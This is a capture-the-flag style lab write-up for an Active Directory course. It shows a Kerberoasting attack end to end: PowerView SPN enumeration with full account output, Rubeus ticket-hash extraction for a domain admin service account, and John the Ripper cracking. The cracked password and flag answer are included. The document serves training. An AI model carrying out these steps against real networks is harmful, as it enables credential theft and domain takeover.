 ```yaml
---
icon: vial
---
```


# 14 - Learning Object

## Tasks



1 - Using the Kerberoast attack, crack password of a SQL server service account

Flag 23 \[dcorp-dc] - SPN for which a TGS is requested 🚩



## Solutions

### 1 - Using the Kerberoast attack, crack password of a SQL server service account

First to all, we need to find out services running with user accounts as the services running with machine accounts have difficult passwords.

We can use PowerView's (Get-DomainUser -SPN) or ActiveDirectory module for discovering such services:

```powershell
C:\AD\Tools\InviShell\RunWithRegistryNonAdmin.bat
. C:\AD\Tools\PowerView.ps1
Get-DomainUser -SPN
```

```powershell
pwdlastset                    : 11/11/2022 9:59:41 PM
logoncount                    : 0
badpasswordtime               : 12/31/1600 4:00:00 PM
description                   : Key Distribution Center Service Account
distinguishedname             : CN=krbtgt,CN=Users,DC=dollarcorp,DC=moneycorp,DC=local
objectclass                   : {top, person, organizationalPerson, user}
showinadvancedviewonly        : True
samaccountname                : krbtgt
admincount                    : 1
codepage                      : 0
samaccounttype                : USER_OBJECT
accountexpires                : NEVER
countrycode                   : 0
whenchanged                   : 11/12/2022 6:14:52 AM
instancetype                  : 4
useraccountcontrol            : ACCOUNTDISABLE, NORMAL_ACCOUNT
objectguid                    : 956ae091-be8d-49da-966b-0daa8d291bb2
lastlogoff                    : 12/31/1600 4:00:00 PM
whencreated                   : 11/12/2022 5:59:41 AM
objectcategory                : CN=Person,CN=Schema,CN=Configuration,DC=moneycorp,DC=local
dscorepropagationdata         : {5/17/2025 7:37:45 PM, 5/17/2025 6:37:45 PM, 5/17/2025 5:37:45 PM, 5/17/2025 4:37:45 PM...}
serviceprincipalname          : kadmin/changepw
usncreated                    : 12300
usnchanged                    : 12957
memberof                      : CN=Denied RODC Password Replication Group,CN=Users,DC=dollarcorp,DC=moneycorp,DC=local
lastlogon                     : 12/31/1600 4:00:00 PM
badpwdcount                   : 0
cn                            : krbtgt
msds-supportedencryptiontypes : 0
objectsid                     : S-1-5-21-719815819-3726368948-3917688648-502
primarygroupid                : 513
iscriticalsystemobject        : True
name                          : krbtgt

logoncount               : 5
badpasswordtime          : 12/31/1600 4:00:00 PM
distinguishedname        : CN=web svc,CN=Users,DC=dollarcorp,DC=moneycorp,DC=local
objectclass              : {top, person, organizationalPerson, user}
displayname              : web svc
lastlogontimestamp       : 10/25/2024 3:37:34 AM
userprincipalname        : websvc
whencreated              : 11/14/2022 12:42:13 PM
samaccountname           : websvc
codepage                 : 0
samaccounttype           : USER_OBJECT
accountexpires           : NEVER
countrycode              : 0
whenchanged              : 10/25/2024 10:37:34 AM
instancetype             : 4
usncreated               : 38071
objectguid               : b7ab147c-f929-4ad2-82c9-7e1b656492fe
sn                       : svc
lastlogoff               : 12/31/1600 4:00:00 PM
msds-allowedtodelegateto : {CIFS/dcorp-mssql.dollarcorp.moneycorp.LOCAL, CIFS/dcorp-mssql}
objectcategory           : CN=Person,CN=Schema,CN=Configuration,DC=moneycorp,DC=local
dscorepropagationdata    : {12/5/2024 12:47:28 PM, 11/14/2022 12:42:13 PM, 1/1/1601 12:00:01 AM}
serviceprincipalname     : {SNMP/ufc-adminsrv.dollarcorp.moneycorp.LOCAL, SNMP/ufc-adminsrv}
givenname                : web
usnchanged               : 255349
lastlogon                : 10/25/2024 3:37:34 AM
badpwdcount              : 0
cn                       : web svc
useraccountcontrol       : NORMAL_ACCOUNT, DONT_EXPIRE_PASSWORD, TRUSTED_TO_AUTH_FOR_DELEGATION
objectsid                : S-1-5-21-719815819-3726368948-3917688648-1114
primarygroupid           : 513
pwdlastset               : 11/14/2022 4:42:13 AM
name                     : web svc

logoncount            : 41
badpasswordtime       : 11/25/2022 4:20:42 AM
description           : Account to be used for services which need high privileges.
distinguishedname     : CN=svc admin,CN=Users,DC=dollarcorp,DC=moneycorp,DC=local
objectclass           : {top, person, organizationalPerson, user}
displayname           : svc admin
lastlogontimestamp    : 5/17/2025 2:45:48 AM
userprincipalname     : svcadmin
samaccountname        : svcadmin
admincount            : 1
codepage              : 0
samaccounttype        : USER_OBJECT
accountexpires        : NEVER
countrycode           : 0
whenchanged           : 5/17/2025 9:45:48 AM
instancetype          : 4
usncreated            : 40118
objectguid            : 244f9c84-7e33-4ed6-aca1-3328d0802db0
sn                    : admin
lastlogoff            : 12/31/1600 4:00:00 PM
whencreated           : 11/14/2022 5:06:37 PM
objectcategory        : CN=Person,CN=Schema,CN=Configuration,DC=moneycorp,DC=local
dscorepropagationdata : {5/17/2025 7:37:45 PM, 5/17/2025 6:37:45 PM, 5/17/2025 5:37:45 PM, 5/17/2025 4:37:45 PM...}
serviceprincipalname  : {MSSQLSvc/dcorp-mgmt.dollarcorp.moneycorp.local:1433, MSSQLSvc/dcorp-mgmt.dollarcorp.moneycorp.local}
givenname             : svc
usnchanged            : 332821
memberof              : CN=Domain Admins,CN=Users,DC=dollarcorp,DC=moneycorp,DC=local
lastlogon             : 5/17/2025 10:11:41 AM
badpwdcount           : 0
cn                    : svc admin
useraccountcontrol    : NORMAL_ACCOUNT, DONT_EXPIRE_PASSWORD
objectsid             : S-1-5-21-719815819-3726368948-3917688648-1118
primarygroupid        : 513
pwdlastset            : 11/14/2022 9:06:37 AM
name                  : svc admin
```

&#x20;The svcadmin (domain administrator) has a SPN set, so we can Kerberoast it.

We can use Rubeus to get hashes for the svcadmin account. We can use the /rc4opsec option that gets hashes only for the accounts that support RC4, this means that if 'This account supports Kerberos AES 128/256 bit encryption' is set for a service account, the below command will not request its hashes (in this case it works using a new session without InviShell).

```bash
C:\AD\Tools\Loader.exe -path C:\AD\Tools\Rubeus.exe -args kerberoast /user:svcadmin /simple /rc4opsec /outfile:C:\AD\Tools\hashes.txt
```

<figure><img src="../../.gitbook/assets/image (4).png" alt=""><figcaption></figcaption></figure>

Now we can use John the Ripper or Hashcat to brute-force the hashes, but first to all remember to remove ":1433" from the SPN in hashes.txt:

<figure><img src="../../.gitbook/assets/image (5).png" alt=""><figcaption></figcaption></figure>

```bash
C:\AD\Tools\john-1.9.0-jumbo-1-win64\run\john.exe --wordlist=C:\AD\Tools\kerberoast\10k-worst-pass.txt C:\AD\Tools\hashes.txt
```

<figure><img src="../../.gitbook/assets/image (8).png" alt=""><figcaption></figcaption></figure>

`*ThisisBlasphemyThisisMadness!!`



### Flag 23 \[dcorp-dc] - SPN for which a TGS is requested 🚩

```
serviceprincipalname  : {MSSQLSvc/dcorp-mgmt.dollarcorp.moneycorp.local:1433, MSSQLSvc/dcorp-mgmt.dollarcorp.moneycorp.local}
```

MSSQLSvc/dcorp-mgmt.dollarcorp.moneycorp.local is the SPN for which a TGS is requested.
